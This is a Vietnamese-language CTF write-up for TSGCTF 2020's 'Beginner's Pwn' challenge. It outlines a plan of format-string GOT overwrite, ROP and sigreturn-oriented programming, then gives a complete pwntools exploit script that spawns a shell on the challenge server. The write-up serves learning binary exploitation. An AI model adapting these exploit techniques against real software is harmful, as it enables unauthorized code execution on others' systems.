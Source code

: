 ```yaml
---
title: "TSGCTF 2020 - Beginner's Pwn"
date: 2020-07-15
tags: ["ctf", "pwn"]
description: ""
layout: layouts/post.njk
# thumbnail: ""
# draft: false
---
```

## Foreword
Theo như description của đề thì bài này là sự tổng hợp của các techniques như:
- Format String
- GOT (Global Offset Table) overwrite
- Buffer Overflow
- ROP (Return-Oriented Programming)
- sigreturn syscall (aka SROP)

Thì chúng ta chỉ việc follow theo đấy mà làm thôi.

## Exploit
![](/img/tsgctf-2020/main_fn.jpg)
![](/img/tsgctf-2020/checksec.jpg)

Như chúng ta thấy thì NX và Canary đều được enabled (đại khái là không thể chạy shellcode và buffer overflow như bình thường). Nhưng bài này có Format String (đặc trưng của lỗi Format String là chúng ta có thể ghi được mọi address, miễn là có quyền write) nên chúng ta có thể bypass được Canary.

### Idea
Idea của em trong bài này step-by-step như sau:
1. Overwrite `__stack_chk_fail` GOT address để tránh exit program khi đè qua canary
2. Ghi `format` string của hàm `scanf` lên section có quyền write (ở đây là .bss section)
3. Làm `rax=0xf` khi chạy qua hàm scanf để gọi `sys_rt_sigreturn` syscall
4. Craft 1 stack frame bằng `pwntools` để chạy `sys_execve` syscall

### Exploit Analyse
```python
from pwn import *

binary = ELF('./beginners_pwn', checksec=False)

p = remote('35.221.81.216', 30002)

got_table = binary.symbols['_GLOBAL_OFFSET_TABLE_']
start_main_ret = 0x401203
end_main_ret = 0x401256

pop_rdi_ret = 0x4012c3
pop_rsi_r15_ret = 0x4012c1
syscall = 0x40118f

p.sendline(('%7$s%s').ljust(8, '\x00') + p64(binary.symbols['got.__stack_chk_fail']))
p.sendline(p64(end_main_ret)[:-1]) # đoạn này slice đi 1 byte cao để không bị đè với hàm ngay bên dưới __stack_chk_fail là scanf
p.sendline('A'*24 + p64(end_main_ret) + p64(start_main_ret)) # đoạn này phải 16 bytes stack-aligned

p.sendline(('%7$s%s').ljust(8, '\x00') + p64(got_table+0x30))
p.sendline('%1$s'*0xf) # ghi '%1$s' 15 lần vào .bss

payload = p64(pop_rdi_ret)
payload += p64(got_table+0x30)
payload += p64(pop_rsi_r15_ret)
payload += p64(got_table+0x80)
payload += p64(0)
payload += p64(binary.symbols['plt.__isoc99_scanf'])
# scanf(format=got_table+0x30, varargs=got_table+0x80)
# sau khi nhập 15 lần '/bin/sh' (line 45) vào scanf thì lúc đó rax=0xf và nhảy vào syscall luôn
# '/bin/sh' sẽ luôn được ghi vào cùng 1 địa chỉ là argument đầu tiên (ở đây chính là got_table+0x80)
payload += p64(syscall)

# Setup stack frame cho Sigreturn
frame = SigreturnFrame(arch='amd64')
frame.rax = 0x3b # sys_execve
frame.rdi = got_table+0x80 # '/bin/sh\x00'
frame.rsi = 0 # reset rsi
frame.rdx = 0 # reset rdx
frame.rip = syscall # jump tới syscall address để gọi sys_execve

payload += str(frame)

p.sendline('A'*24 + payload)
p.sendlines(['/bin/sh\x00']*0xf) # Gửi '/bin/sh\x00' 15 lần

p.interactive()
```
